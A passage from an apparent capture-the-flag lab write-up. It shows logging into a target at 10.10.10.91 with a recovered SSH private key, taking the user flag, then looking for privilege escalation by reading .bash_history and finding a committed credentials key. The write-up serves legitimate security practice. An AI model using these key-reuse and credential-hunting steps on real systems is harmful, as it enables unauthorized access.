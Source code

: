 ```text
chmod 600 roosa_id_rsa
```

SSH into _roosa’s_ account.

```text
ssh -i roosa_id_rsa roosa@10.10.10.91
```

Grab the user.txt flag.

![](../images/max/617/1*Oxjy7ilTTkB0PY71ruy23g.png)

## Privilege Escalation <a id="95c6"></a>

View the content of the home directory.

```text
roosa@gitter:~$ ls -la
total 168                                                                                    
drwxr-xr-x 22 roosa roosa 4096 May 29  2018 .                                                
drwxr-xr-x  7 root  root  4096 Mar 19  2018 ..                                                      
-r--------  1 roosa roosa 5704 Mar 21  2018 .bash_history                                                   
-rw-r--r--  1 roosa roosa  220 Mar 19  2018 .bash_logout                                                    
-rw-r--r--  1 roosa roosa 3771 Mar 19  2018 .bashrc                                                         
drwx------ 12 roosa roosa 4096 Jan 29 21:31 .cache
.....
```

Let’s look into the _.bash\_history_ file.

```text
roosa@gitter:~$ cat .bash_history...
ls -altr
cat kak
cp kak resources/integration/authcredentials.key 
git add resources/integration/authcredentials.key 
git commit -m 'reverted accidental commit with proper key'
...
```

Roosa made a commit that contained a key. To view the commit history run the following command.

```text
roosa@gitter:~$ git log
fatal: Not a git repository (or any parent up to mount point /home)
Stopping at filesystem boundary (GIT_DISCOVERY_ACROSS_FILESYSTEM not set).
```

